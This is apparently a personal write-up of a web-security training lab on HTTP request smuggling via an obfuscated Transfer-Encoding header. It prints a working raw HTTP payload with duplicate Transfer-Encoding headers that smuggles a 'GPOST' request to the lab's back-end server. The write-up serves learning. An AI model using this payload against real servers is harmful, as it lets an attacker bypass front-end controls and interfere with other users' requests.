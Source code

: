 # Practitioner Lab 127: HTTP request smuggling, obfuscating the TE header

---

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

Using the scanner I was able to identify if it was CLTE OR TECL

![Untitled](Practitioner%20Lab%20127%20HTTP%20request%20smuggling,%20obfus%206b3eecc1d24745a6b146562787304e86/Untitled.png)

I then crafter a payload similar to my previous one but this time it had the double transfer-encoding

```
POST / HTTP/1.1
Host: 0a6400bd0315e300803d9e9d004700aa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity

57
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-length: 15

0

```

When I sent this request twice I managed to solve the lab.

![Untitled](Practitioner%20Lab%20127%20HTTP%20request%20smuggling,%20obfus%206b3eecc1d24745a6b146562787304e86/Untitled%201.png)